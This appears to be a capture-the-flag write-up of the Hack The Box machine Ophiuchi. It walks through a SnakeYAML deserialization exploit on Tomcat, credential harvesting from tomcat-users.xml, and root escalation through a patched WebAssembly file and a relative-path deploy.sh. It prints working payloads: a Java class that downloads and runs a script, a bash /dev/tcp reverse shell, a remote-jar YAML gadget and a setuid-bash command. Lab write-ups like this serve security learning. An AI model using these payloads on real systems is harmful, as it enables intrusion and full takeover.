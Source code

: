 ```yaml
---
layout: post
title: Ophiuchi
published: true
---
```


**Ophiuchi is a medium machine from Hack The Box.**

### Enumeration

First things first:
```
nmap -sC -sV -v -p- -oN nmap 10.10.10.227
```

The only available services are SSH over 22 and an Apache Tomcat server on port 8080.
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The homepage of the webserver contains a field meant for parsing YAML syntax. I tried to access the Tomcat admin panels but I don't have any credentials so that's probably a dead end for the time being.

I did some poking around the parser and managed to pop a 500 error:
![Pasted image 20210630161559](https://user-images.githubusercontent.com/60187707/124597858-946b0880-de29-11eb-80b3-fb49df616b2d.png)

### Exploitation

Now I have some specifics about the back end. I started looking for SnakeYAML exploits and came across [this article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).
There is a deserialization vulnerability in certain SnakeYAML libraries that can lead to RCE.
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Management%20Interface/README.md) also has a good walkthrough of the exploit, and is the one that I used.

Before crafting a payload, I verified the PoC by making sure the web server would reach out to my own web server if prompted and indeed it does:

![Pasted image 20210630162027](https://user-images.githubusercontent.com/60187707/124598623-70f48d80-de2a-11eb-8a4c-cc6a4f40602e.png)

It took a bit to build the payload and necessary file structure, and then a **bit** longer to find a payload that would actually result in a reverse shell.

First, I edited `AwesomeScriptEngineFactory.java` to include my payload, which, in this case, was downloading a reverse shell from my machine to the target's `/tmp` folder, and then executing it.
```
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("wget http://10.10.14.22/shell.sh -O /tmp/shell.sh");
	    	    Runtime.getRuntime().exec("bash /tmp/shell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

`shell.sh`:
```
#!/bin/sh
bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```

Next step was to create a YAML config file pointing to a jar file on my server:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.22/yaml-payload.jar"]
  ]]
]
```
Then, convert the `.java` file to a class file:
`javac src/artsploit/AwesomeScriptEngineFactory.java`

And build the jar file:
`jar -cvf yaml-payload.jar -C src/ .`

With that all prepped, and a web server spun up, I only needed to paste the proper YAML code into the parser and receive the incoming connection.

![Pasted image 20210701090406](https://user-images.githubusercontent.com/60187707/124600619-82d73000-de2c-11eb-86cb-1f0375a938f3.png)

Tomcat grabbing my shell:

![Pasted image 20210701090740](https://user-images.githubusercontent.com/60187707/124600655-8a96d480-de2c-11eb-8ccf-ab3fbb2c8631.png)

And on the target as `tomcat`:

![Pasted image 20210701090844](https://user-images.githubusercontent.com/60187707/124600706-9f736800-de2c-11eb-86dd-8cde0163d6b4.png)

### Privilege Escalation

Having seen Apache Tomcat a few times before, I knew there were some configuration files that could have credentials, so I went looking.

Looked in `/opt/tomcat/conf/tomcat-users.xml` and found:

`<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>`

I found credentials as a user, `admin`, and used them to login over SSH.

Next step, as always, is checking sudo privileges:

![Pasted image 20210630175218](https://user-images.githubusercontent.com/60187707/124601329-540d8980-de2d-11eb-82fd-9a1138cb4c00.png)

The `admin` user is limited to running a specific Go script.

![Pasted image 20210701092957](https://user-images.githubusercontent.com/60187707/124601623-ad75b880-de2d-11eb-8487-05e4e86d91d7.png)

Looking closely at `index.go`, it seems to read something out of `main.wasm` and if that returns something other than 1, it prints "Not ready to deploy". 
If it returns anything else, however, it will then call `deploy.sh`, which is not an absolute path, and that could enable me to hijack the execution of the script.
`deploy.sh` only contains 2 commented-out lines so it's not doing anything, even if it does get called. Let's fix that.

Next step is finding out what `main.wasm` does.
Download the file to my machine, and clone the [WebAssembly Binary Toolkit](https://github.com/WebAssembly/wabt) to take a closer look.
I used `wasm2wat` to convert `main.wasm` to the human-readable `.wat` format:

```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

It's a mercifully short file and `i32.const 0` looks like a relevant line for my purposes.

I did [some research](https://developer.mozilla.org/en-US/docs/WebAssembly/Understanding_the_text_format) into WebAssembly and what `i32.const` is used for, and I should be able to just change the 0 to a 1 to hijack the execution flow.

So I did just that:

![Pasted image 20210630184209](https://user-images.githubusercontent.com/60187707/124603706-d434ee80-de2f-11eb-992b-aceb44d20f03.png)

Convert `main.wat` back to `main.wasm` with `wat2wasm`.
Create a malicious `deploy.sh` to place in `/tmp`, where I'll execute the Go script:
```
#!/bin/bash
chmod +s /bin/bash
```

Grab `main.wasm` from my web server and place it in `/tmp`, execute the sudo command, and drop into a new shell:

![Pasted image 20210701100311](https://user-images.githubusercontent.com/60187707/124604033-24ac4c00-de30-11eb-96b4-dc4caaf3185c.png)

Rooted!

















